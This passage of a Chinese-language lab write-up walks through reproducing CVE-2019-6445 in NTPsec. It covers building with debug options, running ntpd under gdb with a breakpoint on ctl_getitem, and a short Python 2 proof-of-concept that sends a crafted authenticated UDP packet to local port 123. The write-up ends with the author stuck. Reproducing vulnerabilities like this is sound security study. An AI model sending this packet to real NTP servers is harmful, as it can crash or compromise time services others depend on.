 4.编译并且允许对其进行调试./waf configure --enable-debug --enable-debug-gdb

![](/images/cve-2019-6445-NTPsec-exploit/13.png)

5.查找配置文件位置，启动编译好的文件需要找个选项find / -name "ntp.conf" 

![](/images/cve-2019-6445-NTPsec-exploit/14.png)

6.gdb启动并且下断点 sudo gdb --args ./build/main/ntpd/ntpd -n -c ./packaging/SUSE/ntp.conf b ctl_getitem  r

![](/images/cve-2019-6445-NTPsec-exploit/15.png)

7.发现已经运行了，端口是123

![](/images/cve-2019-6445-NTPsec-exploit/16.png)

另外一个终端执行poc，注意是python2
```python
#!/usr/bin/env python
# note this PoC exploit uses keyid 1, password: gurka
import sys 
import socket
 
buf = ("\x16\x03\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x6c\x65\x61\x70" +
     "\x00\x00\x00\x01\x5c\xb7\x3c\xdc\x9f\x5c\x1e\x6a\xc5\x9b\xdf\xf5" +
     "\x56\xc8\x07\xd4")
 
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(buf, ('127.0.0.1', 123))
```
8.卡到这里了
